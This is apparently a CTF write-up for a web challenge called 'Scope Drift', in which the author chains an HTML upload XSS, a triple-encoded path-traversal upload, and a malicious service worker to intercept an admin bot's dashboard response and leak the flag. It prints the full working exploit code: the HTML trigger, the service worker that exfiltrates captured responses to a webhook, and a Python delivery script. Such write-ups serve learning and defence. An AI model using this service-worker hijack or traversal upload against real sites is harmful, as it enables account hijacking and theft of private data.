


This was my second time participating in a CTF. I recently joined the team SeaWhisper0, only three of us worked together, and I'd personally say we crushed it landing 96th place. Not bad for just starting out.

## The start

I actually solved this one pretty quickly. I woke up late, completely forgetting I had a CTF that day. I opened it up and went straight to web, since that's my strongest skill set.

The challenge was called **Scope Drift**, hosted on a platform called **MiniStatic**: a small file-hosting service where you can upload static HTML pages under your personal namespace and submit them for administrator review.


I browsed around and immediately knew JavaScript would be involved, since you could upload an HTML file and have a bot directly view it.



## Recon

I had a lot of ideas, but no idea how complex the challenge would be. First thing I did was test whether the bot would actually execute JavaScript, and it did.

Then I tried something simple: fetch `/u/admin/dashboard` from my uploaded page.

```html
<script>
fetch('/u/admin/dashboard')
  .then(r => r.text())
  .then(data => fetch('/webhook/guest?data=' + btoa(data)))
  .catch(e => fetch('/webhook/guest?err=' + e.message));
</script>
```

That came back 403 Forbidden. Fair enough.

That made me step back and rethink the challenge. Was this about exploiting some 0day in the bot's browser? Probably not. So I tried to probe the bot itself: what was its user agent, did it carry any cookies?

```html
<script>
const info = {
  ua: navigator.userAgent,
  cookies: document.cookie,
};
fetch('/webhook/guest?info=' + JSON.stringify(info));
</script>
```

The webhook received the request and gave me what I needed. The bot was running headless Chrome on Linux, and there were no cookies at all:

```
Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/150.0.0.0 Safari/537.36
```



## Pondering

No cookies had me pretty confused, but then I went back to the "Submit for Review" page and actually read it:

> The reviewer will open your hosted page, wait briefly, and then continue from the private admin dashboard.


That's the key line. The bot doesn't just visit your page and stop. It continues from the admin dashboard in the same session. That means the same browser that runs my page will then navigate to the admin dashboard.

Given the challenge name, **Scope Drift**, I thought it had to do with some kind of scoping mechanism within the headless browser's environment.

I thought: wouldn't the admin just spin up a fresh bot for each review? But this is a CTF, not a real-world environment. And "continue from the private admin dashboard" implies the same session, not a fresh one.

So this had to do with some kind of state manipulation or confusion. I asked myself: how could I take over the bot's scope? How do headless browsers manage state?

I tried various more things, such as accessing localStorage and what not ended up thinking some more.

So I asked AI directly:

> "In a browser, if JavaScript runs on page A and the browser then goes to page B, what API can intercept page B's HTTP response from code set up on page A?"

The answer: service workers.

## Payload building

So now the question was: how do I register my own service worker on the bot? This is where the scoping comes into play. At this point I had AI write the code for me and it did a pretty good job putting together a working proof of concept quickly.
Another thing i want to note this payload comes in two pieces, one as the html we upload as the xss then one js file we upload. first we will write the server worker code.


Here are the important bits. All of these are set up with `self.addEventListener`:

```javascript
// activates the service worker immediately, normally it sits in a waiting state until existing tabs close
self.skipWaiting()

async function onActivate(reg) {
    try { 
      await reg.navigationPreload.enable(); 
      } catch (_) {}
    await self.clients.claim();
}
// enables navigation preload (fires the next page's network request while the service worker wakes up)
onActivate(self.registration)
```

To be honest at this point of the CTF I had AI write up most of the code for the poc.
here is the rest of the of the code for the poc:


heres the javascript: 
```javascript
// Force the service worker to activate immediately upon installation
self.addEventListener('install', event => {
    event.waitUntil(self.skipWaiting());
});

// Handle the activation phase
self.addEventListener('activate', event => {
    event.waitUntil((async () => {
        // Enable navigation preload so requests fetch in parallel with SW startup
        try { 
            await self.registration.navigationPreload.enable(); 
        } catch (_) {}

        // Take control of all open clients/pages within scope immediately
        await self.clients.claim();

        // Send an activation beacon back to the webhook with telemetry
        try {
            const preloadState = await self.registration.navigationPreload.getState();
            const isPreloadEnabled = preloadState ? preloadState.enabled : false;
            
            await fetch('/webhook/guest', {
                method: 'POST',
                body: `SWACT scope=${self.registration.scope} preload=${isPreloadEnabled}`
            });
        } catch (_) {}
    })());
});

// Intercept network requests matching the admin dashboard path
self.addEventListener('fetch', event => {
    const requestUrl = new URL(event.request.url);

    if (requestUrl.pathname.indexOf('/u/admin/dashboard') === 0) {
        event.respondWith((async () => {
            let preloadResponse = null;

            // Attempt to retrieve the preloaded server response
            try { 
                preloadResponse = await event.preloadResponse; 
            } catch (err) {}

            // Send diagnostic beacon on whether preload succeeded
            try {
                await fetch('/webhook/guest', {
                    method: 'POST',
                    body: `PRE?${preloadResponse ? 'yes' : 'no'} mode=${event.request.mode} dest=${event.request.destination}`
                });
            } catch (_) {}

            // If we captured a preloaded response, exfiltrate and return it
            if (preloadResponse) {
                try {
                    const responseText = await preloadResponse.text();
                    
                    // Exfiltrate the captured dashboard data to the webhook
                    await fetch('/webhook/guest', {
                        method: 'POST',
                        body: `DASH[${preloadResponse.status}]:${responseText.slice(0, 4000)}`
                    });

                    // Return the response back to the client/bot browser
                    return new Response(responseText, {
                        status: preloadResponse.status,
                        headers: { 'Content-Type': preloadResponse.headers.get('content-type') || 'text/html' }
                    });
                } catch (err) {
                    await fetch('/webhook/guest', {
                        method: 'POST',
                        body: `PREREADERR:${String(err).slice(0, 150)}`
                    });
                }
            }

            // Fallback: If preload wasn't available, fetch the request normally
            const fallbackResponse = await fetch(event.request);
            const fallbackText = await fallbackResponse.text();
            
            await fetch('/webhook/guest', {
                method: 'POST',
                body: `FALL[${fallbackResponse.status}]:${fallbackText.slice(0, 4000)}`
            });

            return new Response(fallbackText, {
                status: fallbackResponse.status,
                headers: { 'Content-Type': fallbackResponse.headers.get('content-type') || 'text/html' }
            });
        })());
    }
});
```

this is the html peice you upload
```html
<script>
function send(data) {
    navigator.sendBeacon('/webhook/guest', JSON.stringify(data));
}

function waitForActivation(registration) {
    return new Promise(resolve => {
        if (registration.active) return resolve();

        const worker = registration.installing || registration.waiting;
        if (worker) {
            worker.addEventListener('statechange', function() {
                if (this.state === 'activated') resolve();
            });
        }

        navigator.serviceWorker.addEventListener('controllerchange', resolve);
        setTimeout(resolve, 5000);
    });
}

async function registerAdminServiceWorker() {
    const registration = await navigator.serviceWorker.register('/u/admin/sw.js', {
        scope: '/u/admin/'
    });
    send({ stage: 'custom service worker injected', scope: registration.scope });

    await waitForActivation(registration);
    send({ stage: 'custom service worker registered', scope: registration.scope });
}

async function main() {
    send({ stage: 'init', url: location.href });

    try {
        await registerAdminServiceWorker();
    } catch (err) {
        send({ stage: 'service worker error', error: String(err) });
    }

    // Hold the page open so the service worker is active when the bot navigates to /u/admin/dashboard
    send({ stage: 'waiting' });
    await new Promise(resolve => setTimeout(resolve, 20000));
    send({ stage: 'done' });
}

main();
</script>
```


let me explain here a bit, the javascript service worker you actually need to upload to a specific path otherwise the exploit won't work. I actually initially found this out by manually testing for lfi in the upload path. there was a hint but I never even saw the hint and found it blackbox.
you have to upload the service worker under /u/admin

the path would look like this: `/u/guest/%25252e%25252e/%25252e%25252e/u/admin/sw.js`
first you upload the service worker to the path above then you also upload the trigger file

here is the actual exploit delivery code:
```python
import warnings
warnings.filterwarnings('ignore')
import requests
import time
import sys


URL = f"https://{sys.argv[1]}"
BOT_URL = f'http://{sys.argv[1]}/u/guest/exp.html'
PROXIES = {'http': 'http://localhost:8080', 'https': 'http://localhost:8080'}
SW_UPLOAD_PATH = f'/u/guest/%25252e%25252e/%25252e%25252e/u/admin/sw.js'

def upload(session, remote_path, content):
    encoded_content = content.replace(" ", "+").replace("/", "%2F").replace("?", "%3F")
    body = f'path={remote_path}&content={encoded_content}'
    r = session.post(f'{URL}/upload', data=body, headers={'Content-Type': 'application/x-www-form-urlencoded',}, timeout=15)
    print(f'[+] Upload {remote_path} -> {r.status_code}')
    return r

def parse_flag(text):
    prefix = "d3ctf{"
    if prefix in text:
        start_index = text.find(prefix)
        end_index = text.find("}", start_index)
        if end_index != -1:
            return text[start_index:end_index + 1]
    return None


def exploit():
    session = requests.Session()

    swpayloadfile = open('serviceworker.js').read()
    html_content = open('exp.html').read()
    
    # files are upload for bot
    upload(session, SW_UPLOAD_PATH, swpayloadfile)
    upload(session, '/u/guest/exp.html', html_content)

    # bot visits and exectutes our payload
    print("[*] init bot")
    session.get(f'{URL}/bot', params={'url': BOT_URL}, timeout=10)

    # wait a bit then fetch the flag finally
    print("[*] waiting for service worker to init")
    time.sleep(5)
    r = session.get(f'{URL}/inbox', timeout=10)
    flag = parse_flag(r.text)
    print(f'[+] flag: {flag}\n')

exploit()
```